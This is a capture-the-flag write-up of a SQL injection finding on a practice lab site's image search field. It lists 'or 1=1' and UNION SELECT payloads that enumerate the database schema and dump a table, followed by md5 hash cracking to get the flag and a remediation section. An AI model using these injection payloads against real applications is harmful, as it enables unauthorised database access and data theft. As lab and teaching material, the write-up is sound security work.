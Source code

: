 # Finding 02 - SQL injection on image searching input field

## Exploitability
Very easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.

## Risk level/type
OWASP top 10
- A02:2021 – Cryptographic Failures		using md5 encryption
- A03:2021 – Injection 					vulnerability to SQL injection

## Detailed description of the exploit
First check whether input field is protected against SQL injections by typing:
```1 or 1=1```
This yields 5 elements, seemingly from a SQL database. The last one being :

```
ID: 5 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```
Checking the URL gives no result


Then, try more advanced SQL injection with the following two commands:
```1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables```
and
```1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns ```
The results are copied in database_table_schema and database_table_columns files.
At the bottom of each listing, there are fields that seem to be user-generated (the only few names not fully capitalized)
The names can be found in the database_listing.md file.

From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT url, title from Member_images.list_images ```
which yields :
```
ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: borntosec.ddns.net/images.png
Surname : Hack me ?
```

And one last SQL injection command :
```1 and 1=1 UNION SELECT id, comment from Member_images.list_images```
which yields :
```
ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 5
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

This code seems to be hashed with md5, so let's try to decrypt it with the following website :
https://www.md5online.org/md5-decrypt.html

It works ! And yields the following :
albatroz
To encrypt it with sha256, we can use the command:
```echo -n "albatroz" | sha256sum```
The flag is:
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Remediation

Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.

## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068